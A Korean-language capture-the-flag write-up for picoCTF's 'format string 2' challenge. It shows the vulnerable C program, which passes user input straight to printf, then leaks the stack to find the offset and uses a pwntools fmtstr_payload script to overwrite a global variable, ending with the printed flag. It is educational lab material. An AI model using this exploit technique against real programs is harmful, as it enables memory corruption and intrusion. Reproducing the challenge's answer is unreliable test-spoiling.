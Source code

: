 # [format string 2](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1)

**Description**
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
<br />

**Source Code:**
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/format_string_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

## Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. sus == 0x67616c66이면 FLAG 출력
2. printf(buf) 호출 -> FSB 취약점 발생
3. NO PIE
```
문제에서 제공하는 바이너리에는 FSB 취약점이 존재합니다. 해당 취약점을 통해 데이터를 유출시키고, `sus`의 값을 `0x67616c66`로 덮어쓰면 FLAG를 획득할 수 있을 것입니다.
<br />
<br />

### 1. 메모리 유출로 오프셋 구하기
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's your input: AAAAAAAA0x7ffebfe913e0.(nil).(nil).(nil).0x400.0x7ffebfe916d0.0x7ffebfe91638.0x3de00ec7.0x7f017e91911c.0x1.0x7ffebfe91700.(nil).(nil).0x4141414141414141.
sus = 0x21737573
You can do better!
```
포맷 스트링으로 출력한 내부 데이터 유출 중에 `AAAAAAAA`의 거리는 14 입니다.
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA.%14$p
Here's your input: AAAAAAAA.0x4141414141414141
sus = 0x21737573
You can do better!
```
<br />

### 2. `sus` 주소 구하기
```bash
$ readelf -s vuln | grep "sus"
    28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```
`sus`의 주소는 `0x404060` 입니다.

<br />

### 3. `sus` 덮어쓰기
```python
from pwn import *

context.arch = "amd64"

p = process("./vuln")
#p = remote("rhea.picoctf.net", 64169)

pay = fmtstr_payload(14, {0x404060:0x67616c66})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './vuln': pid 1540
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      \xf0c    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
[*] Got EOF while reading in interactive
$
```
<br />

## FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 62653: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}[*] Got EOF while reading in interactive
$
```



